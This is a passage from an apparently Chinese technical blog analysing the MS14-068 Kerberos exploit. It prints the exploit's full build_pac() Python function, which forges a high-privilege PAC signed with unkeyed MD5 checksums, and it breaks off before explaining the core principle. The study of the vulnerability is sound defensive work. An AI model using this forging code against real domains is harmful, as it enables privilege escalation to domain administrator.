 之后要做的是伪造一个高权限PAC来添加到之后的TGS_REQ过程中，可以看到Exp在构造TGS-REQ数据包时调用了`build_pac()`函数

![1578669258091.png](https://i.loli.net/2020/03/08/iI5lafqWK9eBgkU.png)

跟一下`build_pac()`这个函数，太长了直接贴代码了：

``` python
def build_pac(user_realm, user_name, user_sid, logon_time, server_key=(RSA_MD5, None), kdc_key=(RSA_MD5, None)):
    logon_time = epoch2filetime(logon_time)
    domain_sid, user_id = user_sid.rsplit('-', 1)
    user_id = int(user_id)
    
    elements = []
    elements.append((PAC_LOGON_INFO, _build_pac_logon_info(domain_sid, user_realm, user_id, user_name, logon_time)))
    elements.append((PAC_CLIENT_INFO, _build_pac_client_info(user_name, logon_time)))
    elements.append((PAC_SERVER_CHECKSUM, pack('I', server_key[0]) + chr(0)*16))
    elements.append((PAC_PRIVSVR_CHECKSUM, pack('I', kdc_key[0]) + chr(0)*16))
    
    buf = ''
    # cBuffers
    buf += pack('I', len(elements))
    # Version
    buf += pack('I', 0)
    
    offset = 8 + len(elements) * 16
    for ultype, data in elements:
        # Buffers[i].ulType
        buf += pack('I', ultype)
        # Buffers[i].cbBufferSize
        buf += pack('I', len(data))
        # Buffers[0].Offset
        buf += pack('Q', offset)  
        offset = (offset + len(data) + 7) / 8 * 8

    for ultype, data in elements:
        if ultype == PAC_SERVER_CHECKSUM:
            ch_offset1 = len(buf) + 4
        elif ultype == PAC_PRIVSVR_CHECKSUM:
            ch_offset2 = len(buf) + 4
        buf += data
        buf += chr(0) * ((len(data) + 7) / 8 * 8 - len(data))

    chksum1 = checksum(server_key[0], buf, server_key[1])
    chksum2 = checksum(kdc_key[0], chksum1, kdc_key[1])
    buf = buf[:ch_offset1] + chksum1 + buf[ch_offset1+len(chksum1):ch_offset2] + chksum2 + buf[ch_offset2+len(chksum2):]
    
    return buf
```
这个函数里需要关注的主要有以下几个点，涉及到MS14-068的核心的原理：
